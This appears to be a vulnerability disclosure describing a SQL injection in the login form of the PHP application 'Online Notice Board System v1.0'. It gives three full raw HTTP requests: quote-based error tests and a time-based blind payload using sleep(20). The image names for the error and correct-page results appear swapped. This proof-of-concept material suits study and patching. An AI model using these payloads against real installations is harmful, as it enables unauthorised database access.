 # Online Notice Board System v1.0 by razormist has SQL injection

BUG_Author:Akela

vendors:https://www.sourcecodester.com/php/14317/online-notice-board-system.html

Vulnerability File: /Online Notice Board System/index.php?option=login

POST parameter 'e' exists SQL injection vulnerability

Payload1: e=1@2'&p=34&save=Login

```
POST /Online%20Notice%20Board%20System/index.php?option=login HTTP/1.1
Host: localhost
Content-Length: 23
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Online%20Notice%20Board%20System/index.php?option=login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=h2td7dda0p1f3dha0mjlejh9vb
Connection: close

e=1@2'&p=34&save=Login
```

sql statement error

![image](https://github.com/XDWHQ/pic/blob/main/right.png)

Payload2: e=1@2''&p=34&save=Login

```
POST /Online%20Notice%20Board%20System/index.php?option=login HTTP/1.1
Host: localhost
Content-Length: 23
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Online%20Notice%20Board%20System/index.php?option=login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=h2td7dda0p1f3dha0mjlejh9vb
Connection: close

e=1@2''&p=34&save=Login
```

correct page

![image](https://github.com/XDWHQ/pic/blob/main/err.png)

Payload3: e=1@2'%2b(select*from(select(sleep(20)))a)%2b'&p=34&save=Login

```
POST /Online%20Notice%20Board%20System/index.php?option=login HTTP/1.1
Host: localhost
Content-Length: 62
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Online%20Notice%20Board%20System/index.php?option=login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=h2td7dda0p1f3dha0mjlejh9vb
Connection: close

e=1@2'%2b(select*from(select(sleep(20)))a)%2b'&p=34&save=Login
```

The response from the server is 20 seconds

![image](https://github.com/XDWHQ/pic/blob/main/sleep.png)


